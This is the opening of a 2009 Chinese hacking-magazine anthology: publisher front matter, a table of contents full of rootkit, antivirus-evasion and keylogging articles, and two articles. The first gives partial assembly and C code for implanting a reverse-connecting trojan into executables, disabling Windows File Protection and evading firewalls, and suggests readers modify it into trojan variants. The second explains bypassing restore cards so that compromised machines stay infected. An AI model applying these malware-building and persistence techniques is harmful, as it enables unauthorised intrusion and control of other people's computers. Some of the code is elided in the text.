# 黑客防线2009精华本（上）

透视黑客技术发展焦点，把握黑客攻防技术跳动脉搏，全面收录流行黑客技术

- 黑客编程实战大演练
- 黑器免杀与入侵进阶
- 加密与破解经典实例
- 网络安全与加固精讲

## 黑客防线

## 2009

## 精华奉献本

## 上册

《黑客防线》编辑部 编



人民邮电出版社  
POSTS & TELECOM PRESS

## 黑客攻略

## 2009

## 精华奉献本

## 上册

《黑客防线》编辑部 编

人民邮电出版社

北京

## 图书在版编目（CIP）数据

《黑客防线》2009精华奉献本 / 《黑客防线》编辑部编. — 北京：人民邮电出版社，2009.1  
ISBN 978-7-115-19504-3

Ⅰ. 黑… Ⅱ. 黑… Ⅲ. 计算机网络—安全技术 Ⅳ. TP393.08

中国版本图书馆CIP数据核字（2008）第204273号

## 内容提要

《黑客防线2009精华奉献本》是国内最早创刊的网络安全技术媒体之一《黑客防线》总第85期至第96期的精华文章摘要。  
《黑客防线》一直秉承“在攻与防的对立统一中寻求突破”的核心理念，关注网络安全技术的相关发展，并一直保持在国内网络安全技术发展前列。从2001年创刊至今，已经成为国内网络安全技术的顶尖媒体。《黑客防线2009精华奉献本》选取了包括黑客攻防、安全编程、漏洞发掘、入侵渗透、安全防护等方面的精华文章，配合两张包含1200MB安全技术工具、代码和录像的光盘，为读者方便阅读、理解提供了非常便捷的途径。  
本书分为上、下两册（本册为上册），适合高校在校生、网络管理员、网络安全公司从业人员、黑客技术爱好者阅读。

## 《黑客防线》2009精华奉献（上、下册）

- 编：《黑客防线》编辑部
- 责任编辑：魏雪萍
- 人民邮电出版社出版发行（北京市崇文区夕照寺街14号）
- 邮编：100061
- 电子邮件：315@ptpress.com.cn
- 网址：http://www.ptpress.com.cn
- 北京印刷一厂印刷
- 开本：787×1092 1/16
- 印张：36
- 字数：1440千字
- 2009年1月第1版
- 2009年1月北京第1次印刷
- ISBN 978-7-115-19504-3/TP
- 定价：45.00元（附2张光盘）
- 读者服务热线：(010)67132692
- 印装质量热线：(010)67129223
- 反盗版热线：(010)67171154

## 致读者的话

今年是不平凡的一年，这一年，作为2001年创刊的国内网络安全技术媒体之一，《黑客防线》做了很多事情——包括杂志进一步提升技术水准，把光盘改为普及型的电子杂志。同时，黑客防线网站的VIP会员的规范性管理、培训班的正规化管理，很多事情，都是在这一年完成的。《黑客防线2009精华奉献本》就是在这样的情况下推出的。可以说，精华本浓缩了我们整年的所有心血！

今年真的很不平凡。在我们为奥运而兴奋、而奔波、而劳累之后，谁也想不到全球的经济危机袭击了我们猝不及防的松弛心境。世界万物仿佛永远遵循着一个定律，乐极就会生悲，然后就是否极泰来。所以大可不必因为经济不景气而否定任何美好的预期，反而应该百倍地增加学习技术和钻研技术的信心。其实，每次世界性的经济危机都会催生一次新的科技创新，任何商品的贬值都没有影响到新技术的升值。因而，拥有黑客防线，学习和钻研技术，是我们处乱不惊的精神寄托。

有了这样的共识，在岁末年初之际，我们推出了《黑客防线2009精华奉献本》。这本书有两个特点，一个特点是完全浓缩了整年的黑客技术精华，将平时读者反馈很好的技术文章综合了起来；另一个特点就是对过去一年的网络安全和黑客技术做了一个总结，并且对新的一年的网络安全技术的发展有了一个展望——展望越来越繁荣的网络安全技术走向！

最后，还需要强调的一点是，《黑客防线》是一本技术月刊，它主要承载新的技术信息、新的技术探索。如果你有志于从事技术工作，特别是与网络相关的行业，或者是有志于钻研技术和技术突破，首先需要的理念就是要尊重技术的价值，就如同我们尽心尽力为广大读者编辑此书一样——每一位钟爱网络安全技术的人，都应该得到彼此之间的尊重！

其实，大家都知道，所谓《黑客防线2009精华奉献本》，大部分都是2008年以来的精华文章——只不过重新制作一本精华本，就给了我们又一次去粗取精、去伪存真的机会。特别是随着时间的过后几个月，对各方面技术的认识，又会多一些沉淀和判断，也是读者对于我们选编水平和技术评判标准的又一次检验。说到这里，让我们再一次感谢读者对我们的认可和支持，也感谢我们的作者提供了分门别类的技术原创文章，特别要感谢的是，那些没有选入精华本文章的作者，还是一如既往地支持我们，提出宝贵的建议，同时自己也在购买精华本。

让我们从现在做起，从我做起，一起珍重网络安全技术的快速发展势头，抓住网络安全技术的新亮点，一起开创中国网络安全技术的新篇章！

## 《黑客防线》2009精华奉献本

目录（上册）

## 《编程篇》目录

- 1. 植入执行文件穿越软件防火墙 …… 1
- 2. 穿透还原卡原理以及实现 …… 4
- 3. NAT穿透之NAT类型检测 …… 9
- 4. 内核方法实现进程保护 …… 12
- 5. 无进程式线程插入穿墙技术实现 …… 20
- 6. 感染PE文件加载DLL …… 25
- 7. 霸王卸甲之击演Protect保护体系 …… 31
- 8. 在内核驱动中检测隐藏进程 …… 34
- 9. 利用BMP图片水印技术写入加密信息 …… 36
- 10. RootKit文件隐藏技术实现 …… 39
- 11. Ring0钩子防网页挂马 …… 42
- 12. 编程打造自己的SSDT恢复工具 …… 47
- 13. 基于NTFS的数据流创建与检测 …… 54
- 14. LSP的遍历与修复 …… 58
- 15. Ring3下实现进程之间的跳转 …… 61
- 16. 基于线程的隐藏进程检测 …… 63
- 17. 使用过滤驱动打造防火墙 …… 67
- 18. 用户模式下突破CEsword进程保护 …… 70
- 19. 东方微点注册表保护绕过及反绕过实现 …… 76
- 20. 打造自己的程序行为监视器 …… 80
- 21. 映像劫持VS启动杀软 …… 85
- 22. Ring3下强行删除文件的攻与防 …… 87
- 23. 再谈内核及进程保护 …… 89
- 24. 用开源反汇编引擎检测inline hook …… 92
- 25. B/S结构远程控制的构想与实现 …… 94
- 26. “摧毁”还原精灵保护系统 …… 98
- 27. Rootkit端口隐藏实现 …… 100
- 28. Ring0中强行结束进程 …… 104
- 29. 直接调用NTFS文件驱动检测隐藏文件 …… 107
- 30. Ring0中Hook SSDT防止进程被结束 …… 111
- 31. Ring0突破360自我保护 …… 115
- 32. 探秘系统内核表SSDT Shadow …… 117
- 33. Ring0下恢复SSDT Shadow …… 120
- 34. 另类绕过Ring3下inline hook …… 124
- 35. Inline hook KeyboardClassServiceCallBack实现键盘记录 …… 128
- 36. 恢复Ring0下的IAT与EAT hook …… 132
- 37. Ring0中hook SSDT实现注册表监控 …… 138
- 38. 托管注入深入研究 …… 140
- 39. 修改函数一个字节实现新型hook …… 143

### 黑客攻防

- 逆向工程打造木马过360监控 …… 146
- SYS与DLL文件的大范围免杀——黑防系列远控工具免杀全集 …… 148
- 让二代远控轻松对抗主动防御 …… 152
- 实战突破微点主动防御 …… 154
- Split函数黑客化，轻松免杀ASP木马 …… 155
- “拿来主义”对抗微点主动防御 …… 159
- 对PHP免杀的思考 …… 162
- 数字化脚本免杀法 …… 164
- 网吧冰点还原终极破解 …… 166
- AU3干掉360实时保护 …… 168
- 使用代码混淆技术免杀脚本后门 …… 170

#### 网管之家

- 也谈PHP程序SQL注入防范 …… 172
- 用Linux下的代理服务器保护主干网 …… 174
- Linux下绕过多网卡实现双网络 …… 178
- 基于符号链接的防盗链功能实现 …… 180
- 一个隔离网络的安全加固方案 …… 182
- 初探Ubuntu内置防火墙之netfilter/iptables …… 189

## 经典果壳

- 破除Hide The IP的网络验证 …… 194
- Flash也玩破解——去除Flash文件网络验证 …… 198
- 修改OllyDBG插件成为ImmDBG插件 …… 201
- 百度QQ号码搜索算法分析 …… 206
- Themida脚本编写详解 …… 209
- Armadillo 5.00标准保护的简单脱法 …… 219
- 初探国内某个人杀毒软件内部原理 …… 222
- 利用Decompiler辅助分析IceSword端口枚举功能 …… 226
- 狙剑文件与磁盘过滤驱动遍历和删除功能全逆向 …… 230
- 软件代码“窃取”技术——逆向你想要的代码 …… 234
- 打造文曲星NC3000模拟器白金存档补丁 …… 239
- Ring3下逆向TCPView端口枚举机制 …… 244
- 攻破DomLinux邮件服务系统 …… 247

### 植入执行文件穿透软件防火墙

适合读者：编程爱好者  
前置知识：汇编、C

文／秦宝军



现在的个人防火墙一般都Hook了NDIS协议驱动的NDIS_PROTOCOL_BLOCK链，并Hook了TDI driver tcpip.sys的几个Device，天网应该是用了IoAttachDevice，但Hook dispatch表会更简单一些。Hook TDI主要是为了能够实现用户层的进程、IP地址和端口的控制（因为协议层是不可中断的）。当然，这方面的任务并不一定需要在TDI中实现，费尔防火墙使用了SPI实现，从这一点上看天网更安全，技术更复杂一些。Hook TDI非常麻烦，UnHook TDI需要重新启动电脑，因为Hook TDI SET_EVENT_HANDLE是不可逆的。如果防火墙只Hook了TCPIP、TCPIP_WANARP等几个特定的协议，我们可以编写一个NDIS协议驱动，穿越它（比如WinPcap），然而Hook所有的协议驱动并不难，就是烦了一些。如果防火墙真的Hook了所有的协议或是IM类型的，那我们就只能Hook NDIS.sys的API，把我们的驱动设置成在miniport驱动之前启动（BOOT类型）了。好烦啊！我们接下去要说的是不用驱动实现穿越防火墙的方法，别扔番茄过来，如果你对上面的以驱动实现的反防火墙Rootkit有兴趣的话，我会在以后的文章中一一叙述的。

不知道现在到底有多少木马可以真正地穿越防火墙，网上搜了一搜，找到了广外男生这个木马，应该是DLL注入进程吧，没有试过，我从来不在自己的电脑上装应用层木马（Rootkit除外），因为这种木马一般都在注册表里面下功夫，删除起来好麻烦（我不用防病毒软件，因为现在的防病毒软件比木马、Rootkit更可怕，因为运用的都是基本相同的技术嘛）。

同样使系统不稳定，特别在我自己的测试驱动满天飞的电脑上）。好了，言归正传，为了使木马更隐蔽，又不用修改注册表，我选择了植入的方法，并加上了反弹的功能。说到植入就逃不掉要使用汇编了（至少我是这样认为的），就像CIH那样。

#### 植入程序的实现

- 1) 修改执行文件(.exe)，加入一个CODE段，如果操作系统支持SFC，则关闭它（这由安装程序实现）。
- 2) 通过ESP获得Kernel32.dll的base地址，获取所需要的API和Library(ws2_32.dll)地址。
- 3) 调用CreateThread，创建一个线程调用我们的Socket程序。
- 4) 主线程继续进行。

首先声明一下，一是汇编程序是一门艺术，可以写得很好看，很有效率，当然我远没有达到这个境界，而且写得比较随意，没有仔细去优化，尽管在WinDBG下调试了很多次，也测试了很多经过植入的程序，浏览了代码5、6次，如果有出错的地方或缺乏效率的地方请多多包涵。二是阅读汇编代码并不有趣（我是这样认为的，如果能用C实现的话，我决不会去写汇编代码），所以如果接下来将近1000行的汇编代码可能让你失去耐心，请见谅。

```asm
将CreateProcessA的返回地址压esp，存入edi；调用GetKnlBase函数，返回后edi保存着Kernel32模块的基地址。
```

```asm
_MainPROC NEAR
pushad
mov edi, [esp + 32] ; edi = return address
call GetKnlBase
mov [esp - 4], edi ; [esp - 36] = Kernel32 module base address.
...
test eax, eax
popad
jz @End2 ; Failed.

;GetKnlBase 函数
;edi = 搜索的起点地址
GetKnlBase PROC
push ebp
mov ebp, esp
;获得重定位偏移值
call @F
@@:
pop ebx
sub ebx, @B
......代码省略，详见相关asm.txt文件......
```

OK，终于完成植入代码了，没趴下吧？汇编代码是用masm6.11版本编译的（选择tiny模式）。休息一下，我们继续分析安装代码（安装植入代码进入执行文件）。

#### 安装代码的实现

- 1）安装代码是用C编写的，我先列出安装程序的使用说明。

安装文件.exe [-ipcr] 植入文件.exe [Starting IP Address and Ending IP Address] [Port] [Connect time out seconds]

Example:  
安装文件.exe [-ipcr] 植入文件.exe [0.0.0.0 255.255.255.255] [1231] [10]

Options:
- `-i` 搜索的起始IP地址和结束IP地址
- `-p` 远程控制端口号
- `-c` 远程连接超时时间
- `-r` 替换文件，不管文件是否正在运行（需要重新启动）

- 2）植入文件函数

```c
BOOL EmbedFile()
{
    PIMAGE_DOS_HEADER pDosHeader;
    PIMAGE_NT_HEADERS pNTHeader;
    PIMAGE_SECTION_HEADER pNewSecHdr;
    ...
}
```

```c
pLastSecHdr;
UINT SecNum, Idx;
PBYTE pData;
ULONG Size;
IMAGE_SECTION_HEADER SecHdr;
CHAR SecName[] = ".code";
ULONG NewEntryPoint, OriEntryPoint, NewFileSize, NewSecRawOff;
LONG EntryOffset;

// pFileData 是插入文件的数据指针
pDosHeader = (PIMAGE_DOS_HEADER)pFileData;
if (pDosHeader->e_magic != IMAGE_DOS_SIGNATURE) { return FALSE; }

pNTHeader = MakePtr(PIMAGE_NT_HEADERS, pDosHeader, pDosHeader->e_lfanew);
if (pNTHeader->Signature != IMAGE_NT_SIGNATURE) { return FALSE; }

pNewSecHdr = MakePtr(PIMAGE_SECTION_HEADER, pNTHeader, 0xF8);
ZeroMemory(&SecHdr, sizeof(IMAGE_SECTION_HEADER));

SecNum = pNTHeader->FileHeader.NumberOfSections;
pLastSecHdr = &pNewSecHdr[SecNum - 1];
pNewSecHdr = &pNewSecHdr[SecNum];
pData = MakePtr(PBYTE, pDosHeader, pNTHeader->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_BOUND_IMPORT].VirtualAddress);
Size = pNTHeader->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_BOUND_IMPORT].Size;

......代码省略，详见杂志相关insert.txt文件......
```

- 3）如果是Windows 2000或者更高版本的操作系统，如果植入的文件是属于系统保护的文件，我们需要关闭WFP功能。

```c
// Load sfc 库
hSFCDll = LoadLibrary("sfc_os");
if (hSFCDll == NULL) hSFCDll = LoadLibrary("sfc");

if (hSFCDll != NULL) {
    // 如果系统为 Windows 2000/XP，调用 SfcIsFileProtected 函数，查看植入文件是否为保护文件
    SfcIsFileProtected = (PSFCISFILEPROTECTED)GetProcAddress(hSFCDll, "SfcIsFileProtected");
    if (SfcIsFileProtected != NULL) {
        INT cb = mbstowcs(WFileName, EmbededFileName, strlen(EmbededFileName));
        if (SfcIsFileProtected(NULL, WFileName)) {
            // 如果是关闭保护功能
            if (DisableWFP(hSFCDll)) {
                FreeLibrary(hSFCDll);
            }
        }
    }
}
```

#### 4）如何替换正在运行的文件

如果是 Windows NT 系统，我们使用“MoveFileEx(,, MOVEFILE_DELAY_UNTIL_REBOOT);”即可实现；如果是 Win32 系统的话，我们修改 wininit.ini 或建立 wininit.ini 文件，加入以下代码即可，具体操作请见随文提供的源代码。

```ini
[rename]
NUL=文件名
; 删除文件
新文件名=旧文件名
; 文件更名
```

至此，我们的代码就算编写完了，接着你只需要仔细阅读一下源代码，稍微修改一下就能实现一个木马变种了。写这个程序的目的是为了说明现在的软件防火墙是如此的不堪一击，尽管此程序还是逃不过防病毒软件的特征码测试（稍微修改一下汇编代码，加入一些冗余码就可以躲过特征码测试，因为修改了 PE 文件格式，修改了入口点，所以这些痕迹也逃不过防病毒软件的未知病毒测试，那么如何躲过呢？这可是一个大课题了，Rootkit 和 Anti-Rootkit 之间的竞争从来没停止过，留着以后分析吧）。

适合读者：编程爱好者  
前置知识：VC、汇编

## 穿透还原卡原理以及实现


文／llkz

当今的网络时代，木马横行，病毒肆虐，如今应付它们唯一有效的方法就是安装还原卡，如小哨兵和各种还原软件，比如冰点、影子等。也正因如此，导致我们现在基本找不到一家没有安装还原产品的网吧，甚至高校机房等公共上网的场所也安装了此类产品。这种技术确实抵挡了大部分木马病毒的攻击，但也给我们的工作学习带来了不便。比如刚刚辛苦写好的文档由于系统死机重启而被还原掉，无法安装需要重新启动才能正常运行的各种软件等等，更令我们菜鸟郁闷的是辛辛苦苦得到的肉鸡因为对方重新启动计算机而飞走了。下面我们就一起分析一下穿透还原卡的原理以及实现。

还原卡的工作原理是在操作系统启动之前就获得机器的控制权。用户对硬盘的操作，实际上不是对原数据的修改，而是对还原卡虚拟空间进行操作，从而达到对系统数据保护的功能。单纯功能的硬盘还原卡占用的系统资源多，要求硬盘有很大的剩余空间才行，已经逐渐被淘汰。现在又出现了网络还原卡，采用网卡实现还原功能，将网络和还原技术结合，实现了远程开关机、重启、还原、对拷、监视、控制等功能。使用还原卡，可以将计算机的系统分区或其他需要保护的分区保护起来，可以将还原卡设定为下次启动或一定时间后对系统进行自动还原。这样，在此期间内对系统所作的修改将不复存在，免去了系统每使用一段时间后就由于种种原因造成系统紊乱、经常出现蓝屏而不得不再次重装系统之苦。

无论是软件还原卡还是硬件还原卡，都需要在系统启动的时候加载磁盘过滤驱动程序。

这也是实现文件还原的关键所在。磁盘过滤驱动工作在磁盘驱动程序之上，可以过滤我们访问磁盘的一切操作，从而记录下我们这些操作实现还原功能。显然，穿透还原卡关键是如何躲过磁盘过滤驱动程序的过滤，实现对磁盘的操作。这里有两种方法，一种是像 IceSword 那样，直接向文件系统驱动发送 IRP；还有一种就是直接读写硬盘技术。我这里使用第二种方法，所以需要深入介绍一些直接读取大容量硬盘的方法。

IDE 是硬盘的一种通用接口标准。当用传统的 INT 13H 中断对其扇区读写时，会有 8.4GB 的容量限制，原因何在？我们先来看看操作系统是如何读写硬盘的。操作系统读写硬盘有如下两个途径：

- 文件管理层→经由 INT 13H 中断调用→BIOS 服务层→IDE 接口
- 文件管理层→经由设备驱动程序→IDE 接口

第 1 种途径中，BIOS 服务层负责将 INT 13H 送来的读写参数转换成对 IDE 接口的读写参数，并由 IDE 接口执行数据的 I/O 传送。IDE 接口支持两种方式对扇区寻址，即逻辑块 LBA 寻址和柱面磁头扇区 CHS 寻址，两种寻址方式都安排了 32 个二进制位保存扇区地址参数。在 CHS 方式中，32 位分属于 4 个 8 位寄存器：柱面号低位寄存器（1F4H）、柱面号高位寄存器（1F5H）、扇区号寄存器（1F3H）、驱动器号/高 4 位和磁头号（低 4 位）寄存器（1F6H）。在 LBA 方式中，上述 4 个寄存器中的 28 位（1F6H 寄存器只用到其低 4 位）构成一个完整的 28 位长的扇区逻辑地址，每个扇区对应一个 LBA 地址，而不再属于某一柱面、某一磁头和某一扇区。

而传统的 INT 13H 中断中只安排了 3 个 8 位寄存器来对扇区寻址：柱面低位寄存器（CH 寄存器）、柱面号（高 2 位）和扇区号（低 6 位）寄存器（CL 寄存器）、磁头号寄存器（DH 寄存器）。DOS（包括 Windows 下的虚拟 DOS）使用第 1 种途径读写硬盘，这时的 BIOS 在接受 INT 13H 送来的扇区地址数据时，只把其 10 位柱面号送给 IDE 的柱面号寄存器（1F4H 和 1F5H），空余 6 位填 0；把扇区号 6 位送给 IDE 的 1F3H 寄存器，空余 2 位填 0；这种方式认为磁头数不会超过 16，故只把磁头寄存器 DH 中的低 4 位送给 IDE 的 1F6H 寄存器。这样，能寻址的最多扇区数就是 1024×16×63=1,032,192 个（扇区从 1 开始编号，故只有 63 个），硬盘最大容量是 528MB，这就是当年的 528MB 容量限制。

为了突破 528MB 限制，BIOS 作了改进，允许 INT 13H 中磁头寄存器 DH 扩到 8 位。这样，在接受 INT 13H 参数时若柱面数超过 1024，则将柱面数除以 2，同时磁头数乘以 2，如此保持能寻址的扇区总数不变，直到柱面数不超过 1024 为止。故 INT 13H 寻址的扇区数是 1024×256×63=16,515,072 个，硬盘容量达 512×16,515,072=8.4GB。而 BIOS 在向 IDE 接口传送参数时，将磁头数缩小若干倍后转换成 4 位送给 1F6H 寄存器，同时将柱面数扩大相同的倍数后传给 1F4H 和 1F5H 寄存器，从而使 IDE 接口能正确地对扇区进行物理寻址。由此可见，IDE 硬盘 8.4GB 的容量限制是由于 BIOS 中 INT 13H 接受扇区数受到限制而造成的。要想突破 8.4GB 的限制，在用 INT 13H 读写硬盘时就不能用寄存器传送扇区地址参数了。

关于 IDE 的寄存器和 IDE 命令。经由设备驱动程序对硬盘 IDE 接口编程，就是直接向 IDE 寄存器设置参数进而读写硬盘。首先我们简要了解一下 IDE 的寄存器，IDE 有两类寄存器：命令寄存器和控制寄存器。命令寄存器被用来接受命令和传送数据，控制寄存器用作磁盘控制。第一个 IDE 接口命令寄存器地址是 1F0H～1F7H，控制寄存器地址是 3F0H～3F7H；第 2 个 IDE 接口分别是 170H～177H 和 370H～377H。

- 数据寄存器（1F0H，读写）：这是唯一的一个 16 位寄存器，CPU 通过该寄存器与硬盘交换数据。
- 错误寄存器（1F1H，读）：8 位寄存器，它反映控制寄存器的错误原因。
- 特性寄存器（1F1H，写）：一般情况下不使用这种方式，只在初始化 IDE 接口时使用。
- 扇区数寄存器（1F2H，读写）：读写的扇区数，8 位。
- 扇区号寄存器（1F3H，读写）：存放读、写和校验命令指定的起始扇区号。如果驱动器使用逻辑块 LBA 寻址方式，则该寄存器存放逻辑扇区号的 0 字节。
- 柱面号寄存器（1F4H 和 1F5H，读写）：存放读、写、校验、寻道和格式化命令指定的柱面号。16 位柱面号（65536 个柱面）的低 8 位在 1F4H 寄存器中，高 8 位在 1F5H 寄存器中。如果是 LBA 寻址方式，这两个寄存器存放逻辑扇区号的 1 字节和 2 字节。
- 驱动器/磁头寄存器（1F6H，读写）：存放读、写、校验、寻道和格式化时指定的驱动器号、磁头号和寻址方式。其中 D7、D5 总是 1；D6=0 为 CHS 模式，D6=1 为 LBA 模式；D4=0 选择主硬盘，D4=1 选择从硬盘；D3～D0 选择磁头，若是 LBA 模式则 D3～D0 是逻辑扇区号的高 4 位。
- 状态寄存器（1F7H，读）：它表明硬盘驱动器执行命令后的状态，读该寄存器将清除中断请求信号，所以一般是读辅助状态寄存器 3F6H，这两个寄存器的内容完全相同。
- 辅助状态寄存器（3F6H，读）：它包含与状态寄存器相同的内容。
- 硬盘控制寄存器（3F6H，写）：该寄存器 D7～D4 数值不限，D3 位为 1，D0 位为 0，D2 位是软件复位，D2=1 时可复位驱动器。D1 位为中断允许，D1=0 时允许中断。
- 命令寄存器（1F7H，写）：该寄存器接收 CPU 命令。

关于 IDE 接口中扇区地址的编排方式。IDE 接口允许 65536 个柱面，16 个磁头，256 个扇区。扇区寻址有两种方式：物理寻址方式和逻辑地址方式。物理寻址方式（CHS 方式）用柱面、磁头和扇区号表示一个特定的扇区。起始扇区是 0 磁道、0 磁头、1 扇区，接着是 2 扇区，直到 255 扇区；接下来是同一柱面的 1 磁头、1 扇区。在 CHS 方式下，共有 65526×16×255=267,386,880 个扇区，此时硬盘容量达 136.9GB。逻辑块寻址（LBA）方式扇区地址是连续的而不分柱面和磁头，参加寻址的有 3 个半寄存器（1F3H、1F4H、1F5H 及 1F6H 的低 4 位）共 28 位，寻址扇区达 268,435,455 个，硬盘容量为 137.4GB。设扇区的逻辑扇区号（LBA 地址）为 N，扇区所在的柱面号为 C，磁头号为 H，扇区号为 S，每柱磁头数为 H1，每磁头扇区数为 S1，A 是中间变量，“MOD”为求余数运算，“\”为整除的商，则 LBA 地址与 CHS 地址的转换关系为：

> N=(C*H1+H)*S1+S-1  
> S=(N+1) MOD S1  
> A=(N+1)\S1  
> H=A MOD H1  
> C=A\H1

若采用 LBA 方式寻址，则没有磁头和磁道的转换操作，当进行连续的多扇区读写时，速度比 CHS 方式要快。硬盘的这两种工作方式可由用户在 BIOS 中设置，但一般都采用 LBA 方式。

有了以上知识，我们就很容易编写出一个通过 IDE 控制器访问磁盘的驱动程序了，相关代码如下。

通过逻辑扇区访问磁盘的问题我们已经解决了，剩下的问题就是如何通过分析 FAT32 文件系统实现在启动目录中添加我们构造的文件了。

首先我们需要分析硬盘结构。根引导区位于硬盘的第 1 个逻辑扇区，即 0 柱面、0 磁头和 1 扇区，它由主引导记录、硬盘分区表和引导区结束标记三部分组成，共一个扇区 512 字节。其中，主引导记录由 446 字节组成，存放系统主引导程序。DPT 表占用 64 字节，记录了磁盘的基本分区信息。分区表包括 4 个分区项，每项 16 字节，分别记录各个分区的信息。引导区标记占用 2 字节，对于合法的引导区，它的值对于内部寄存器来说高位在后，这是判别引导区是否合法的标志。分区表由 4 个分区信息项构成，每一项 16 字节，信息结构如下：

| 位置 | 字节 | 分区信息项内容 |
|---|---:|---|
| 00H | 1 | 分区状态 |
| 01H | 1 | 分区起始磁头号 |
| 02H | 2 | 分区起始扇区和柱面号 |
| 04H | 1 | 分区类型 |
| 05H | 1 | 分区结束磁头号 |
| 06H | 2 | 分区结束扇区和柱面号，定义同起始扇区和柱面号 |
| 08H | 4 | 该分区前扇区数，线性寻址方式下的分区相对扇区地址 |
| 0CH | 4 | 分区大小 |

下面开始分析 Windows 系统常用的 FAT32 文件系统的文件存储结构。我们知道，一个物理硬盘包括主引导记录 MBR 和多个分区，分区也被称为逻辑盘，如一个物理硬盘可划分成 C、D、E 等多个逻辑盘。下面的讨论限制在一个 FAT32 逻辑盘上。

#### 1）DOS 引导记录 DBR

FAT32 文件系统在逻辑盘上的结构如下：  
DBR（保留扇区）| FAT1 | FAT2 | DATA（含 FDT）  
其中，保留扇区的数目、FAT 的大小和根目录 FDT 的位置在 FAT32 下不再是固定的，但它们可以从 DBR 中的 BPB 参数块获得。

在 DBR 中，偏移 0 处的跳转指令将程序执行流程跳转到偏移 5AH 处的 DOS 引导程序入口，这里不详细分析引导代码了。BPB 参数块从第 12（0BH）字节开始，占用 80（0BH～5AH）字节，前面提到的一些重要参数在 BPB 中的偏移及值如下：

| 偏移 长度 值 | 说明 |
|---|---|
| 0D 1 0x20 | 每簇扇区数 |
| 0E 2 0x20 | 保留扇区数 |
| 1C 4 0x3F | 隐含扇区：从硬盘 LBA=0 至 DBR 的扇区数 |
| 24 4 0x36F6 | 每 FAT 扇区数 |
| 2C 4 0x02 | 根目录 FDT 在 DATA 区的起始簇位置 |

#### 2）根目录 FDT

用 Format 命令进行高级格式化时，就会为（逻辑）磁盘建立一个根目录文件目录表 FDT。在根目录下，用户可以再创建不同的子目录或文件，根目录以及各个子目录都有自己的 FDT。FDT 定义了文件名、文件大小以及文件存放的起始簇号。

根目录 FDT 起始偏移字节 =（保留扇区数 + 2×每 FAT 扇区数 +（FDT 起始簇号 - 2）×每簇扇区数）×每扇区 512 字节

其中“起始簇号 - 2”是因为 FAT 中第 0 簇和第 1 簇为保留簇，起始簇号从 2 开始。根目录下的所有文件及其子目录在根目录 FDT 中都有一个 32 字节的目录登记项，FDT 中文件目录项的部分内容及含义如下：

